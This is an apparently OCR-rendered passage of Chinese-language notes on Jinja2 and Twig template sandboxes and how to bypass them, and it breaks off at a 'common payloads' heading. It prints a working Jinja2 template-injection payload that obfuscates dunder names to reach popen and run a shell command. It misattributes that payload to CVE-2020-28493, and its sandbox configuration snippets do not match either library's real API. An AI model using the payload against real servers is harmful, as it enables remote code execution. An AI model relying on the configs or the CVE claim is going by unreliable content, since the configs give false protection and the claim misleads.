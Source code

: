 常见关键组件:

> 1. 命名空间隔离：创建纯净的全局/局部字典
> ```python
> safe_globals = {'len': len, 'str': str}  # 白名单函数
> safe_locals = {'user_input': filtered_value}
> ```
> 2. 操作码过滤器：拦截危险字节码, 和其他注入防护差不多; 例如过滤 `(` `)` `__class__` 等

例如这个沙箱:

```python
# Jinja2 沙箱
from jinja2.sandbox import SandboxedEnvironment

env = SandboxedEnvironment(
    autoescape=True,
    # 关键防护配置：
    overrides={
        '__class__': None,        # 禁用类访问
        '__globals__': None       # 阻断全局空间
    },
    # 函数白名单
    allowed_functions=['range', 'lower']
)
```

```php
# Twig 沙箱
<?php
$twig = new \Twig\Environment($loader, [
    'sandbox' => [
        'allowedTags' => ['if'],       # 仅允许if标签
        'allowedFilters' => ['escape'],# 仅允许escape过滤器
        'allowedMethods' => [],        # 禁止对象方法
        'allowedProperties' => []      # 禁止对象属性
    ]
]);
```

常用的绕过手法:

**字符串拼接**: (CVE-2020-28493) 

```python
{{ ()["__cla"+"ss__"]["__ba"+"se__"]["__subcla"+"sses__"]()[132]["__in"+"it__"]["__glob"+"als__"]["po"+"pen"]("id") }}
```

- 字符串拼接规避关键词检测;
- 使用元组 `()` 替代字符串起始点;
- 利用未过滤的魔术方法链;

#### 常用 payload

(Jinja2)
